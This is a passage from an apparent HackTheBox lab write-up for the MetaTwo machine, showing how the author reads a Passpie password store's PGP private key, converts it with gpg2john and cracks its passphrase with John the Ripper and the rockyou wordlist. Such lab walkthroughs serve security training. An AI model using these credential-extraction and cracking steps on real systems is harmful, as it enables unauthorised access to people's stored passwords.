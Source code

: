 So, now, I jsut decided to copy the private key block from the `.keys` file.

```
jnelson@meta2:~/.passpie$ cat .keys
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQSuBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
..[snip]...
GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+Po3KGdNgA/04lhPjdN3wrzjU3qmrL
fo6KI+w2uXLaw+bIT1XZurDN
=dqsF
-----END PGP PUBLIC KEY BLOCK-----
-----BEGIN PGP PRIVATE KEY BLOCK-----

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD
...[snip]...
uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
-----END PGP PRIVATE KEY BLOCK-----

```

Then I used, gpg2john and john the ripper to extract and crack the password from the private key.


```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ echo -en '-----BEGIN PGP PRIVATE KEY BLOCK-----                                                                                                                                                        

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD
...[snip]...
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----' > hash-key
                                                                                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ gpg2john hash-key > crackthehash

File hash-key
                                                                                
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt crackthehash         
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]         (Passpie)     
1g 0:00:00:05 DONE (2023-02-15 14:56) 0.1956g/s 32.09p/s 32.09c/s 32.09C/s peanut..blink182
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
